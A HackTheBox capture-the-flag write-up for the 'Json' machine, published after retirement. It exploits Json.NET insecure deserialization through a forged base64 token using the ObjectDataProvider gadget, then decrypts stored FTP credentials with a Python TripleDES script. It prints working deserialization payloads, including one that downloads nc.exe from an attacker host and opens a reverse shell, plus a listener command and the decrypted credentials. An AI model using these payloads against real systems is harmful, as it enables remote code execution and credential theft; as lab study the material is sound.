







# Json

```
Platform    : HackTheBox
OS          : Windows
Difficulty  : Medium
Category    : Insecure Deserialization (Json.NET) / API / Credential Decryption
IP          : 10.129.227.191
```

---

## Summary

The target ran an ASP.NET Web API application secured by a custom
`Bearer`/`OAuth2` scheme, where the "token" was actually just
base64-encoded JSON — trivially readable and forgeable. Sending a
malicious serialized object as that token exploited an insecure
Json.NET deserialization vulnerability, achieving remote code
execution as a low-privileged service account. Local enumeration
found a file-sync utility (Sync2Ftp) with credentials encrypted using
a proprietary scheme; reverse engineering the binary with ILSpy
revealed the exact encryption algorithm and key, allowing the
credentials to be decrypted and reused against an FTP service that
had been inaccessible during initial recon — exposing the root flag.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -Pn --open 10.129.227.191 -oN scan.txt
nmap -p 21,80,135,139,445,5985,47001,49152,49155 -sCV 10.129.227.191
```

Key findings:

- **Port 21** — FileZilla ftpd 0.9.60 beta
- **Port 80** — Microsoft IIS 8.5
- **Port 135/139/445** — Windows RPC/SMB (Server 2008 R2 - 2012)
- **Port 5985/47001** — WinRM

---

## Exploiting the Web Application

The web app used default credentials:

```
admin:admin
```



Inspecting the network traffic revealed an `OAuth2` cookie that was
suspiciously readable:



Decoding it confirmed it was simply base64-encoded JSON, not a real
token:

```
echo "eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0" | base64 -d
```

```json
{"Id":1,"UserName":"admin","Password":"21232f...","Name":"User Admin HTB","Rol":"Administrator"}
```

Further traffic inspection surfaced an API endpoint:


Replaying that request in Burp, with both the `Bearer` header and the
`OAuth2` cookie set to the same forged token, confirmed the same
account data could be retrieved directly:



```json
{"Id":1,"UserName":"admin","Password":"21232f...","Name":"User Admin HTB","Rol":"Administrator"}
```



Since the "token" was just serialized JSON accepted back by the
server, tampering with its structure was tried next — which returned
a very specific and useful error:



```json
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object", ...}
```

This confirmed the backend was deserializing the token content
directly using Json.NET — a strong signal of a well-known insecure
deserialization vulnerability class.

---

## Understanding the Vulnerability: Json.NET Insecure Deserialization

Json.NET (`Newtonsoft.Json`) supports a setting called
`TypeNameHandling`. When enabled (commonly set to `Auto` or `All`),
the deserializer doesn't just read plain data — it reads a `$type`
field embedded in the JSON itself and uses it to decide **which .NET
class to instantiate** and populate with the given data.

This is powerful for legitimate use cases (polymorphic deserialization,
where the exact subtype isn't known ahead of time), but it becomes
dangerous the moment an attacker controls the JSON body: they aren't
limited to the classes the application expects — they can specify
**any type available in the loaded .NET assemblies**, including
classes that have side effects simply by being constructed or having
their properties set.

The classic gadget for this is
`System.Windows.Data.ObjectDataProvider`. This class is designed to
let WPF applications bind UI elements to the result of calling a
method on an object. Critically, it invokes that method **as soon as
its properties are set** — during deserialization itself, before any
application logic runs. By pointing it at
`System.Diagnostics.Process.Start` with attacker-controlled arguments,
simply deserializing the crafted JSON executes an arbitrary OS
command:

```json
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, ...",
    "MethodName": "Start",
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib, ...",
        "$values": ["cmd", "/c <attacker command>"]
    },
    "ObjectInstance": {"$type": "System.Diagnostics.Process, System, ..."}
}
```

The server still throws an exception afterward — the deserialized
result doesn't actually match the type the application expected — but
that exception happens **after** the process has already been
started. The visible 500 error is a side effect, not a sign the
attack failed:



```
"ExceptionMessage":"Unable to cast object of type
'System.Windows.Data.ObjectDataProvider' to type
'Newtonsoft.Json.Linq.JObject'.",
"ExceptionType":"System.InvalidCastException"
```

This confirms the sequence: Json.NET resolved `$type`, built the
`ObjectDataProvider`, ran the `Start` method (executing the OS
command), and only *then* failed to cast the result into the shape
the endpoint expected.

---

## Foothold

An ICMP-based payload confirmed the RCE blind, since the request
itself returns an error page with no visible command output:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -n 10 10.10.17.96']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

```
tcpdump -i tun0 icmp -n
```

```
IP 10.129.40.168 > 10.10.17.96: ICMP echo request, id 1, seq 2, length 40
```

With execution confirmed, the same gadget was reused to download and
run `nc.exe` for a full reverse shell:

```
'$values':['cmd','/c powershell -Command "Invoke-WebRequest http://10.10.17.96/nc.exe -OutFile c:/Users/Public/nc.exe" & C:/Users/Public/nc.exe -e cmd.exe 10.10.17.96 443 ']
```

Caught on a listener:

```
sudo rlwrap nc -lvnp 443
```

```
c:\windows\system32\inetsrv>whoami
json\userpool
```

---

## Privilege Escalation

Enumeration found **Sync2Ftp**, a utility that syncs a local folder
with an FTP server — notable since the initial FTP scan had shown the
service running but inaccessible. Its config file stored encrypted
credentials:

```
C:\Program Files\Sync2Ftp>type SyncLocation.exe.config
```

```xml
<add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
<add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="/>
<add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
```

The binary was pulled and opened in ILSpy to find the exact
decryption routine:



The method showed a clear, reproducible algorithm: MD5-hash the
security key to derive a Triple DES key, then decrypt in ECB mode
with PKCS7 padding. This was reimplemented in Python:

```python
import base64, hashlib
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad

def decrypt(s):
    ciphertext = base64.b64decode(s)
    key = hashlib.md5(key_str).digest()
    des = DES3.new(key, DES3.MODE_ECB)
    return unpad(des.decrypt(ciphertext), 8).decode()
```

```
[+] Username: superadmin
[+] Password: funnyhtb
```

These credentials worked directly against the previously
inaccessible FTP service, which exposed the Administrator's profile —
including the root flag:

```
ftp 10.129.40.168
Name: superadmin / Password: funnyhtb
```

```
ftp> cd Desktop
-r--r--r-- 1 ftp ftp  34 Aug 07 09:56 root.txt
```

---

## Lessons Learned

- Any "token" the client can fully read (like a cookie that decodes
  cleanly with `base64 -d`) is a strong signal it isn't cryptographically
  signed — worth testing for tampering immediately, since the server
  may be trusting it more than it should.
- A specific, verbose deserialization error message
  ("Cannot deserialize Json.Net Object") is a direct hint at the
  library and pattern in use — Json.NET with `TypeNameHandling`
  enabled is a well-documented RCE class, worth recognizing by that
  error alone.
- Insecure deserialization RCE can succeed even when the response is
  a server error — the exploit's side effect (a spawned process) can
  happen before the code path that ultimately throws. Blind
  confirmation (ICMP, DNS, HTTP callbacks) is essential here, since
  the visible response can be misleading.
- Proprietary "encryption" found in application config files is
  usually just obfuscation once the binary implementing it is
  available — decompiling with a tool like ILSpy and reimplementing
  the exact algorithm is often faster and more reliable than trying
  to guess or brute-force the scheme.
- A service that looked closed or inaccessible during initial
  reconnaissance (the FTP server here) is worth revisiting once valid
  credentials are found — "inaccessible" often just means
  "unauthenticated," not "not part of the attack path."

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
